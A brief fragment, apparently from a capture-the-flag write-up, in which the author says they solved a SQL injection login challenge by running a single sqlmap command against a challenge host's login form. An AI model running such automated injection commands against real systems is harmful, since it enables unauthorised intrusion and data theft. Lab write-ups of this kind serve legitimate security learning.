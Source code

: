 To solved this i actually used sqlmap to solve it :)

sqlmap -u 'https://csean-seeql.chals.io/login' -d "username=*&password=anything"
